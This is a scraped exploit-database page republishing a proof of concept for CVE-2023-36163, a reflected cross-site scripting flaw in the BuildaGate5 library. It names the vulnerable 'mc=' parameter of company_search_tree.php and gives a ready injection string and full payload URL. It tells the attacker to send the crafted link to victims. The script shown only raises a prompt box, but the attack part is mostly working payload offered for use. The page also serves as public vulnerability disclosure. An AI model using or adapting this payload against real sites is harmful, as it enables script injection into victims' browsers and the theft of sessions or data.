 ```yaml
---
title: BuildaGate5 Cross Site Scripting exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:173366&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-07-12
fetch_date: 2025-10-04T11:53:51.793213
---
```


# BuildaGate5 Cross Site Scripting exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for BuildaGate5 Cross Site Scripting CVE-2023-36163

2023-07-11 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:173366
# Exploit Title: BuildaGate5library - Reflected Cross-Site Scripting (XSS)
# Date: 06/07/2023
# Exploit Author: Idan Malihi
# Vendor Homepage: None
# Version: 5
# Tested on: Microsoft Windows 10 Pro
# CVE : CVE-2023-36163

#PoC:
An attacker just needs to find the vulnerable parameter (mc=) and inject the JS code like:
'><script>prompt("XSS");</script><div id="aa

After that, the attacker needs to send the full URL with the JS code to the victim and inject their browser.

#Payload:
company_search_tree.php?mc=aaa'><script>prompt("XSS");</script><div id="aaaa
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)